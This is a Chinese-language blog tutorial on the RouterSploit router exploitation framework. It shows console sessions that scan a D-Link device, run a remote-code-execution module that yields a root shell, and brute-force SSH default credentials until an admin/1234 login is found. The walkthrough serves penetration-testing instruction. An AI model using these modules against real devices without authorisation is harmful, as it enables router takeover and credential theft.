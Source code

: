 ```yaml
---
title: 路由器漏洞检测及利用框架 RouterSploit
id: 408
comment: false
categories:
  - arm
date: 2016-05-09 22:28:45
tags:
---
```


RouteSploit框架是一款开源的漏洞检测及利用框架，其针对的对象主要为路由器等嵌入式设备。

<!-- more -->
asciicast

框架功能

RouteSploit框架主要由可用于渗透测试的多个功能模块组件组成，

1、 Scanners：模块功能主要为检查目标设备是否存在可利用的安全漏洞；

2、Creds：模块功能主要针对网络服务的登录认证口令进行检测；

3、Exploits：模块功能主要为识别到目标设备安全漏洞之后，对漏洞进行利用，实现提权等目的。

工具安装

sudo apt-get install python-requests python-paramiko python-netsnmpgit clone https://github.com/reverse-shell/routersploit ./rsf.py
GitHub地址如上命令中所述为：RouteSploit。

操作使用

首先，启动RouteSploit框架，具体如下所示

root@kalidev:~/git/routersploit# ./rsf.py 
 ______            _            _____       _       _ _
 | ___ \          | |          /  ___|     | |     (_) |
 | |_/ /___  _   _| |_ ___ _ __\ `--. _ __ | | ___  _| |_
 |    // _ \| | | | __/ _ \ '__|`--. \ '_ \| |/ _ \| | __|
 | |\ \ (_) | |_| | ||  __/ |  /\__/ / |_) | | (_) | | |_
 \_| \_\___/ \__,_|\__\___|_|  \____/| .__/|_|\___/|_|\__|
                                     | |
     Router Exploitation Framework   |_|

 Dev Team : Marcin Bury (lucyoa) & Mariusz Kupidura (fwkz)
 Codename : Wildest Dreams version  : 1.0.0

rsf >
1、Scanners 模块

scanners模块，具备设备漏洞扫描功能，通过该模块，可快速识别目标设备是否存在可利用的安全漏洞，下面会以一个dlink路由器为例，结合进行操作描述。

（1）选择scanners模块，操作如下，

rsf > use scanners/dlink_scan
rsf (D-Link Scanner) > show options
（2）显示选项

Target options:

   Name       Current settings     Description                                
   ----       ----------------     -----------                                
   target                          Target address e.g. http://192.168.1.1     
   port       80                   Target port
（3）设置目标设备IP

rsf (D-Link Scanner) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
（4）运行模块，执行情况如下，

rsf (D-Link Scanner) > run
[+] exploits/dlink/dwr_932_info_disclosure is vulnerable
[-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
[-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
[-] exploits/dlink/dns_320l_327l_rce is not vulnerable
[-] exploits/dlink/dir_645_password_disclosure is not vulnerable
[-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
[-] exploits/dlink/dir_300_600_rce is not vulnerable

[+] Device is vulnerable!
 - exploits/dlink/dwr_932_info_disclosure
如上所呈现的结果，目标设备存在dwr_932_info_disclosure漏洞。接下来，我们选择合适的payload进行传递和测试（以下涉及exploits模块功能操作，如需，请再往下查阅），

6.png

2、Exploits 模块

（1）选择Exploits模块，操作如下，

rsf > use exploits/
exploits/2wire/     exploits/asmax/     exploits/asus/      exploits/cisco/     exploits/dlink/     exploits/fortinet/  exploits/juniper/   exploits/linksys/   exploits/multi/     exploits/netgear/
rsf > use exploits/dlink/dir_300_600_rce
rsf (D-LINK DIR-300 & DIR-600 RCE) >
我们也可以使用“tab”键来自动补充输入命令。

（2）显示选项

rsf (D-LINK DIR-300 & DIR-600 RCE) > show options

Target options:

   Name       Current settings     Description                                
   ----       ----------------     -----------                                
   target                          Target address e.g. http://192.168.1.1     
   port       80                   Target Port
设置选项，操作如下，

rsf (D-LINK DIR-300 & DIR-600 RCE) > set target http://192.168.1.1
[+] {'target': 'http://192.168.1.1'}
（3）运行模块

通过使用“run”或“exploit”命令来完成漏洞的利用，

rsf (D-LINK DIR-300 & DIR-600 RCE) > run
[+] Target is vulnerable
[*] Invoking command loop...
cmd > whoami
root
也可检测目标设备是否存在选定的安全漏洞，操作如下，

rsf (D-LINK DIR-300 & DIR-600 RCE) > check
[+] Target is vulnerable
（4）显示具体漏洞信息

通过“show info”命令，显示漏洞信息，包括其存在的设备品牌、型号、漏洞类型及参考来源，具体参考如下，

rsf (D-LINK DIR-300 & DIR-600 RCE) > show info

Name:
D-LINK DIR-300 & DIR-600 RCE

Description:
Module exploits D-Link DIR-300, DIR-600 Remote Code Execution vulnerability which allows executing command on operating system level with root privileges.

Targets:
- D-Link DIR 300
- D-Link DIR 600

Authors:
- Michael Messner <devnull[at]s3cur1ty.de> # vulnerability discovery
- Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

References:
- http://www.dlink.com/uk/en/home-solutions/connect/routers/dir-600-wireless-n-150-home-router
- http://www.s3cur1ty.de/home-Network-horror-days
- http://www.s3cur1ty.de/m1adv2013-003
3、 Creds模块

（1）选择模块

此模块相关文件位于 /routesploit/modules/creds/ 目录下，以下为该模块支持检测的服务，

?	ftp 

?	ssh

?	telnet

?	http basic auth

?	http form auth

?	snmp

在检测过程中，可通过两个层面对上述的每个服务进行检测，

默认服务登录口令检测：利用框架提供的各类路由等设备以及服务的默认登录口令字典，通过快速列举的方式，可在较短时间内（几秒钟）验证设备是否仍使用默认登录口令；

暴力破解：利用框架中所提供的特定账户或者账户列表进行字典攻击。其中包含两个参数（登录账户及密码），如框架/routesploit/wordlists目录中字典所示，参数值可以为一个单词（如’admin’），或者是一整个单词列表。

（2）控制台

rsf > use creds/
creds/ftp_bruteforce         creds/http_basic_bruteforce  creds/http_form_bruteforce   creds/snmp_bruteforce        creds/ssh_default            creds/telnet_default         
creds/ftp_default            creds/http_basic_default     creds/http_form_default      creds/ssh_bruteforce         creds/telnet_bruteforce      
rsf > use creds/ssh_default
rsf (SSH Default Creds) >
（3）显示选项

5.png

（4）设置目标设备IP

rsf (SSH Default Creds) > set target 192.168.1.53
[+] {'target': '192.168.1.53'}
（5）运行模块

rsf (SSH Default Creds) > run
[*] Running module...
[*] worker-0 process is starting...
[*] worker-1 process is starting...
[*] worker-2 process is starting...
[*] worker-3 process is starting...
[*] worker-4 process is starting...
[*] worker-5 process is starting...
[*] worker-6 process is starting...
[*] worker-7 process is starting...
[-] worker-4 Authentication failed. Username: '3comcso' Password: 'RIP000'
[-] worker-1 Authentication failed. Username: '1234' Password: '1234'
[-] worker-0 Authentication failed. Username: '1111' Password: '1111'
[-] worker-7 Authentication failed. Username: 'ADVMAIL' Password: 'HP'
[-] worker-3 Authentication failed. Username: '266344' Password: '266344'
[-] worker-2 Authentication failed. Username: '1502' Password: '1502'

(..)

Elapsed time:  38.9181981087 seconds
[+] Credentials found!

Login     Password     
-----     --------     
admin     1234         

rsf (SSH Default Creds) >
介绍内容来自 FreeBuf黑客与极客
